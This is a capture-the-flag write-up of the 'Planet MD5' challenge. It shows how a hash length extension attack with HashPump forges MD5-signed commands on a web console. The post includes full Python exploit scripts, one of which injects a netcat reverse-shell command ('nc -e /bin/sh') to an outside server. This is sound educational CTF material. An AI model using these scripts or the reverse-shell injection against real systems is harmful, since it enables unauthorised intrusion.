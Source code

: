 ```yaml
---
layout: post
title: Planet MD5 - nn9ed
author: devploit
item_image: https://i.imgur.com/Ao2pJ8H.png
tags: ctf nn9ed navajanegra crypto web
---
```


### 0x01 Challenge:

**Level:** Medium

**Description:**

>**Planet MD5**
>
>Escape the sandbox and read the flag.
>http://planet-md5.nn9ed.ka0labs.org.
>author: ka0labs

### 0x02 Write-up:

We start by visiting the URL provided.

![Branching](https://i.imgur.com/Ao2pJ8H.png)

As we can see, we have access to a console, which seems to only accept the execution of three commands:

```
telnetd> help
Help:
 - ls
 - id
 - unametelnetd> help
```

If we check the request made when executing a command, we can see that each one has an associated signature.

![Branching](https://i.imgur.com/czT5ETO.png)

After hours of searching for exploitation options, hash break attempts and so on, I found this vulnerability.

--

**Hash Lenght Extension Attack**

In cryptography and computer security, a length extension attack is a type of attack where an attacker can use Hash(message1) and the length of message1 to calculate Hash(message1 ‖ message2) for an attacker-controlled message2, without needing to know the content of message1. Algorithms like MD5, SHA-1, and SHA-2 that are based on the Merkle–Damgård construction are susceptible to this kind of attack.

--

It completely matched what we needed to do, so I looked for some tool and set about it. In this case I used [Hashpump](https://github.com/bwall/HashPump).

The first use we are going to give the tool is to achieve the key length. For this case I did the following script:

```python
import requests
from subprocess import check_output
import re

originalSig = 'f55f774913a6e4ad3691f217c60c0958'
cmd = "hashpump -s '" + originalSig + "' --data 'command=id' -a '|ls' -k "

for x in range(1, 60):
    # Append the key length to the command and get the output from execution
    ncmd = cmd + str(x)
    out = check_output(ncmd, shell=True).split("\n")

    newParams = out[1].strip()
    newSig = out[0].strip()

    # URL encode the padding
    m = re.search(r"id(.+?)ls", newParams)
    items = m.group(1).split('\\')
    for item in items:
        newParams = newParams.replace('\\x'+item, '%'+item)

    viewUrl = 'http://planet-md5.nn9ed.ka0labs.org/index.php?' + newParams + '&signature=' +newSig

    r = requests.get(viewUrl)
    if r.text.strip() == 'index.php':
        print 'New URL params: ' + newParams
        print 'New full URL:   ' + viewUrl
        print 'Key length:     ' + str(x) + ' -> ' + r.text.strip()
```

The use of it is to let us know when we have managed to execute the 'ls' command attached to the 'id' command itself. So when it finds an 'index.php' file it notifies us with the complete URL and the key length as we see in the following image.

![Branching](https://i.imgur.com/8rmdyhj.png)

Visiting the full URL we see the 'ls' command execution achieved.

![Branching](https://i.imgur.com/bodn1pZ.png)

Seeing that it is vulnerable and knowing the length of the key, I modify the script to throw a reverse shell on a server.

```python
import requests
from subprocess import check_output
import re

originalSig = 'f55f774913a6e4ad3691f217c60c0958'
cmd = "hashpump -s '" + originalSig + "' --data 'command=id' -a '| nc -e /bin/sh $SERVER_IP 7778' -k "

# Append the key length to the command and get the output from execution
x = 15
ncmd = cmd + str(x)
out = check_output(ncmd, shell=True).split("\n")

newParams = out[1].strip()
newSig = out[0].strip()

# URL encode the padding
m = re.search(r"id(.+?)7778", newParams)
items = m.group(1).split('\\')
for item in items:
    newParams = newParams.replace('\\x'+item, '%'+item)

viewUrl = 'http://planet-md5.nn9ed.ka0labs.org/index.php?' + newParams + '&signature=' +newSig

r = requests.get(viewUrl)
print 'New URL params: ' + newParams
print 'New full URL:   ' + viewUrl
print 'Key length:     ' + str(x)
```

We execute it, we visit the complete URL that it gives us and we verify that we receive reverse shell on our server.

![Branching](https://i.imgur.com/vCWLrl6.png)

![Branching](https://i.imgur.com/pbgwWff.png)

Finally we have shell on the server. It would only be to find the flag and that's it.

![Branching](https://i.imgur.com/waZW6iu.png)

`Flag: nn9ed{j3t_ext3nd3r_4d}`
